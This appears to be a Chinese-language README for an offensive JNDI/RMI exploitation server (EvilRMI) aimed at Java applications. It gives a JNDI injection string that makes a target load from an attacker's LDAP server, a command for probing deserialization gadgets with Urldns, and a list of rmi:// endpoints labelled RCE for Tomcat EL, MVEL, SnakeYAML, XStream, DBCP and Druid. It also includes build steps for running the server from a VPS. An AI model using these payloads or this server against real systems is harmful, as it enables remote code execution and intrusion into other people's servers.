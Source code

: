 ### 探测可用的gadget
[UrlDns](https://github.com/kezibei/Urldns) 启动LDAP服务:
```
java -jar Urldns.jar ldap all <dnslog>
```
JNDI加载LDAP：`${jndi:ldap://<ip>:1389/Hello}`，利用LDAP反序列化的特性使用URLDNS探测存在的gadget

如果DNS未出网，可以使用延时探测: [构造java探测class反序列化gadget
](https://mp.weixin.qq.com/s/KncxkSIZ7HVXZ0iNAX8xPA>)

执行命令测试成功：
```
tomcat_el
tomcat_el_runtime
tomcat_MVEL
tomcat_xstream
tomcat_snakeyaml
tomcat_tomcat_dbcp2_RCE
druid
```


### RmiServer

- `rmi://127.0.0.1:1099/tomcat_el`
- `rmi://127.0.0.1:1099/tomcat_el_runtime`
    - javax_el_ELProcessor
- `rmi://127.0.0.1:1099/tomcat_groovy`
- `rmi://127.0.0.1:1099/tomcat_snakeyaml`
    - org_yaml_snakeyaml_Yaml
- `rmi://127.0.0.1:1099/tomcat_xstream`
    - Xstream <= 1.4.17
- `rmi://127.0.0.1:1099/tomcat_MVEL`
    - org_mvel2_sh_ShellSession
- `rmi://127.0.0.1:1099/tomcat_xxe`
    - org_apache_catalina_UserDatabase
- `rmi://127.0.0.1:1099/tomcat_dbcp2_RCE`
    - org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory
- `rmi://127.0.0.1:1099/tomcat_dbcp1_RCE`
    - org.apache.tomcat.dbcp.dbcp.BasicDataSourceFactory
- `rmi://127.0.0.1:1099/commons_dbcp2_RCE`
    - org.apache.commons.dbcp2.BasicDataSourceFactory
- `rmi://127.0.0.1:1099/commons_dbcp1_RCE`
    - org.apache.commons.dbcp.BasicDataSourceFactory
- `rmi://127.0.0.1:1099/tomcat_JDBC_RCE`
    - org.apache.tomcat.jdbc.pool.DataSourceFactory
- `rmi://127.0.0.1:1099/druid`
    - com.alibaba.druid.pool.DruidDataSourceFactory

#### 编译运行(注意放到VPS的时候修改`java.rmi.server.hostname`)
1. File -> Project Structure -> Artifats -> + -> Add Jar -> Main Class -> com.rmi.RmiServer
2. Build -> Build Artifats
3. java -cp EvilRMI.jar com.rmi.RmiServer

#### 参考链接
* [老链新用，利用URLDNS链探测gadget](https://mp.weixin.qq.com/s/p_mBiEhXuHa11usHPzHlEA)
* [Urldns链探测类工具发放](https://mp.weixin.qq.com/s/DN9n_xAd0QRB2G1kjbeGMw)
* [构造java探测class反序列化gadget](https://mp.weixin.qq.com/s/KncxkSIZ7HVXZ0iNAX8xPA)
* [探索高版本 JDK 下 JNDI 漏洞的利用方法](https://tttang.com/archive/1405/)
* [ysoserial-for-woodpecker](https://github.com/woodpecker-framework/ysoserial-for-woodpecker)